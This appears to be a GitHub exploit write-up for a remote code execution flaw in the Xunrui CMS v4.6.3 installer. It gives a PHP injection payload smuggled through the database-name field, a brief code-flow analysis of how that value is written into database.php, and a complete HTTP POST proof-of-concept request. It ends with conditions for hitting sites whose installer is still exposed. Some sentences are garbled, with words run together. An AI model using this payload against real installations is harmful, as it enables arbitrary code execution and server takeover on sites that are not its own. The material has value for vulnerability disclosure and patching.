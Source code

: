 # xunruicms_rce
The RCE is connected through the CMS installation interface
# Xunrui CMS Installation Vulnerability

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)

## Payload:
``` exp;-- ---'];phpinfo();['```

##Vulnerability Reproduction:
Normal installation of .database.php
During installation, the process immediately jumps to step 3.
File After Successful Exploitation:
The file after exploitation shows how the vulnerability is exploited.
Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']

However, bypassing the database creation query is required.

##Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE
Thus, the exploit is:
```exp;-- ---'];phpinfo();['```
##Dynamic Analysis:
If the SQL query is successfully executed, the rest of the process proceeds smoothly.
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php
##Proof of Concept (PoC):
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

##Reproduce the Issue:
1.Remotely connect to the attacker's database.
2.The other party did not install the CMS, and did not generate the lock file.
